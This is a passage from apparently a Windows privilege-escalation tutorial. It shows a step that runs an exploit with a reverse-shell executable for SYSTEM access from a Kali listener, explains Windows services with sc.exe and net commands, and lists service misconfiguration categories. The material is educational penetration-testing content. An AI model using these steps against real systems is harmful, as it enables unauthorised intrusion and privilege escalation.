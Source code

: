 5. Start a listener on Kali and run the exploit, providing it with the reverse shell executable, which should run with SYSTEM privileges:

> > .\x64.exe C:\PrivEsc\reverse.exe

### **Service Exploits**

**Services**

Services are simply programs that run in the background, accepting input or performing regular tasks.

If services run with SYSTEM privileges and are misconfigured, exploiting them may lead to command execution with SYSTEM privileges as well.

**Service Commands**

Query the configuration of a service:

> > sc.exe qc <name>

Query the current status of a service:

> > sc.exe query <name>

Modify a configuration option of a service:

> > sc.exe config <name> <option>= <value>

Start/Stop a service:

> > net start/stop <name>

### **Service Misconfigurations**

**1. Insecure Service Properties**

**2. Unquoted Service Path**

**3. Weak Registry Permissions**

**4. Insecure Service Executables**

**5. DLL Hijacking**

Remaining will be published soon
